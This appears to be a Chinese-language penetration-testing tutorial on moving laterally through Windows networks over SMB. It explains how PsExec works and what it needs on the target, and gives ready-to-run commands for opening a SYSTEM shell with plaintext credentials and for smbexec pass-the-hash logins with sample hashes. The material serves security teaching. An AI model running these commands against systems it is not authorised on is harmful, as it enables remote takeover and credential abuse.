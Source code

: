 
# [SMB 协议利用](#toc_smb_1)

## [psexec](#toc_psexec)

psExec 是微软官方提供的一个 Windows 远程控制工具，可以根据凭据在远程系统上执行管理操作，并且可以获得与命令行几乎相同的实时交互性。该工具在 MSF 框架中也有集成。

psexec 是 windows 下非常好的一款远程命令行工具。psexec 的使用不需要对方主机开方 3389 端口，只需要对方开启 admin$共享 (该共享默认开启)。但是，假如目标主机开启了防火墙，psexec 也是不能使用的，会提示找不到网络路径。由于 PsExec 是 Windows 提供的工具，所以杀毒软件将其列在白名单中。

**PsExec 的基本原理**：

-   通过 ipc$连接，释放二进制文件 psexecsvc.exe 到目标
-   通过服务管理 SCManager 远程创建一个 psexec 服务，并启动服务
-   客户端连接执行命令，服务端通过服务启动相应的程序执行命令并回显数据
-   运行结束后删除服务

**psexec 的使用前提：**

-   对方主机开启了 admin$ 共享，如果关闭了 admin$共享，会提示：找不到网络名
-   对方未开启防火墙或放行 445 端口
-   如果是工作组环境，则必须使用 administrator 用户连接（因为要在目标主机上面创建并启动服务），使用其他账号 (包括管理员组中的非 administrator 用户) 登录都会提示访问拒绝访问。
-   如果是域环境，即可用普通域用户连接也可以用域管理员用户连接。连接普通域主机可以用普通域用户，连接域控只能用域管理员账户。

用法：

```plain
psexec.exe -accepteula \\192.168.1.131 -u Administrator -p 123qwe@ -s cmd.exe 
# -accepteula 禁止弹出许可证对话框 
# -s 以 SYSTEM 权限启动进程
```

如果已经建立 IPC 连接，那么可以直接使用 psexec 连接远程主机

```plain
psexec.exe -accepteula \\192.168.1.131 -s cmd.exe
```

或者不提取 shell，直接用目标系统的 cmd.exe 的/c 选项在目标主机上执行命令，并得到回显（与前面的 at 命令相似）

```plain
PsExec.exe \\192.168.1.131 <Command>
PsExec.exe \\192.168.1.131 cmd.exe /c "ipconfig"
PsExec.exe \\192.168.1.131 -u Administrator -p 123qwe@ cmd.exe /c "ipconfig"
```

## [smbexec](#toc_smbexec)

**无需先 ipc 链接**，明文或 hash 传递（第三方库）

```plain
smbexec uf9n1x/administrator:123qwe@@192.168.1.131
smbexec ./administrator:123qwe@@192.168.1.131
smbexec -hashes :$HASH$ ./admin@192.168.1.131
smbbexec -hashes :$HASH$ domain/admin@192.168.1.131
smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.1.131
smbexec -hashes :ccef208c6485269c20db2cad21734fe7 uf9n1x/administrator@192.168.1.131
```
